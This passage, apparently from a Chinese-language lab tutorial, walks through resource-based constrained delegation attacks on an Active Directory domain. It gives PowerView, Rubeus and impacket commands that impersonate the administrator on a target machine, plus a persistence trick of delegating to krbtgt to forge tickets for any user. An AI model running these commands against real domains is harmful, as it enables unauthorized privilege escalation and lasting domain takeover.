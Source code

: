 `$SD.GetBinaryForm($SDBytes, 0)`

`Get-DomainComputer DESKTOP-P34E60A| Set-DomainObject -Set @{'msds-
allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose`

![]()

 **检查是否配置成功**

Get-DomainComputer DESKTOP-P34E60A -Properties msds-
allowedtoactonbehalfofotheridentity

 **攻击完成清除基于资源的约束委派配置：**

Set-DomainObject DESKTOP-P34E60A -Clear 'msds-
allowedtoactonbehalfofotheridentity' -Verbose

![](https://gitee.com/fuli009/images/raw/master/public/20210804091129.png)

也可以在域控上通过命令行打开adsiedit.msc查看CN=DESKTOP-P34E60A机器属性，可以看到：

`当被设置为基于资源的约束委派的时候，它的msds-allowedtoactonbehalfofotheridentity会包含有效字段。`

![](https://gitee.com/fuli009/images/raw/master/public/20210804091130.png)

现在已经配置好利用条件就可以通过基于资源的约束委派进行攻击了

 **1.使用rubues获取票据**

Rubeus.exe hash /user:win10system /password:win10 /domain:hiro.com

![]()

Rubeus.exe s4u /user:win10system$ /rc4:6C4FD556DB12BE51BACD9A3CC19D486E
/impersonateuser:administrator /msdsspn:cifs/DESKTOP-P34E60A /ptt

![](https://gitee.com/fuli009/images/raw/master/public/20210804091131.png)![](https://gitee.com/fuli009/images/raw/master/public/20210804091132.png)

 **2.使用impacket套件获取**

`python3 getST.py -dc-ip 192.168.228.10 -spn cifs/DESKTOP-P34E60A -impersonate
administrator hiro.com/win10system$:win10`

`set KRB5CCNAME=administrator.ccache`

`python3 wmiexec.py -no-pass -k administrator@DESKTOP-P34E60A.hiro.com -dc-ip
192.168.228.10`

###  **利用基于资源的约束委派进行权限维持**

跟约束委派利用相似，可以 **配置win10system到krbtgt的基于资源的约束委派** ，只要有了win10system的权限，就能
**伪造任意用户请求krbtgt服务，则可以请求到任意用户的TGT**

在域控上执行：

`$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList
"O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3105699010-1460039537-418241315-1151)"`

`$SDBytes = New-Object byte[] ($SD.BinaryLength)`
